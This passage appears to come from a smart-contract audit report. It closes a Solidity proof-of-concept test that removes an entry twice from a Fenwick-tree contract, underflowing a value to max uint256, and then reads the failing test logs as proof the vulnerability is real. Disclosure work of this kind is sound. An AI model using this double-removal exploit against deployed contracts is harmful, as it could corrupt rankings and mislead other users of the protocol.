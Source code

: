 ```solidity
        console2.log("Before exploit - Bob rank:", testTree.query(2));
        console2.log("Before exploit - Attacker rank:", testTree.query(3));
        
        // Normal removal
        testTree.update(3, -1); // Attacker removed once
        console2.log("After normal removal - Attacker position:", testTree.getData(3));
        
        // BUG: Double removal due to boundary checking error
        testTree.update(3, -1); // VULNERABILITY: Second removal
        console2.log("After DOUBLE removal - Attacker position:", testTree.getData(3));
        console2.log("Underflow value equals max uint256:", testTree.getData(3) == type(uint256).max);
        
        // Show corrupted state affects all queries
        console2.log("After exploit - Alice rank:", testTree.query(1));
        console2.log("After exploit - Bob rank:", testTree.query(2));
        console2.log("After exploit - Corrupted query:", testTree.query(3));
        
        // This would allow attacker to manipulate their perceived rank/tier
        assertTrue(testTree.getData(3) == type(uint256).max, "Critical: Underflow vulnerability confirmed");
    }
}
```

The test failures confirm the vulnerability exists:

**Test 1 Failure: `"Index must be > 0"`**
- Attacker gets `joinId = 0` (invalid for Fenwick tree)
- This reveals the protocol assigns invalid tree positions
- Demonstrates boundary condition handling is broken

**Test 2 Failure: `"arithmetic underflow or overflow (0x11)"`**
- Successfully creates underflow: `tree.data[3] = type(uint256).max`
- Corruption confirmed by the massive value logged
- **Failure occurs when querying the corrupted state**, not during the exploit
- The panic proves the tree structure is compromised

Key Evidence from Logs:

  After DOUBLE removal - Attacker position: 
  115792089237316195423570985008687907853269984665640564039457584007913129639935
  Underflow value equals max uint256: true


The underflow succeeds (reaching `type(uint256).max`), then the system fails when trying to process the corrupted data. The failure is the **consequence** of successful exploitation, not failed exploitation.

**Expected vs Actual:**
- **Expected**: Clean failure with revert
- **Actual**: Underflow succeeds, system breaks afterward
- **Conclusion**: Vulnerability confirmed - lack of input validation allows corruption

The test failures prove the vulnerability works exactly as described.
